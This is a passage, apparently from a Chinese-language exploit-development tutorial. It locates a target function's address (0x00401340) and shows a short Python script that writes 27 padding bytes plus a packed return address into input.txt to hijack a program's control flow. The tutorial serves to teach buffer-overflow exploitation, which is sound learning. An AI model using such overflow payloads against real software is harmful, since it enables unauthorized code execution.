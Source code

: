 程序给我们设定了`Shellcode Length`字符串的确切位置。现在，让我们继续，直到找到函数的开始地址：

![](img/00278.jpeg)

地址是`0x00401340`。现在，让我们设置攻击代码：

```
#!/usr/bin/python
 from struct import *
 buffer = ''
 buffer += 'a'*27
 buffer += pack("<Q", 0x00401340)
 f = open("input.txt", "w")
 f.write(buffer)
```

现在，运行漏洞代码更新`input.txt`；然后，打开`input.txt`：

![](img/00279.jpeg)
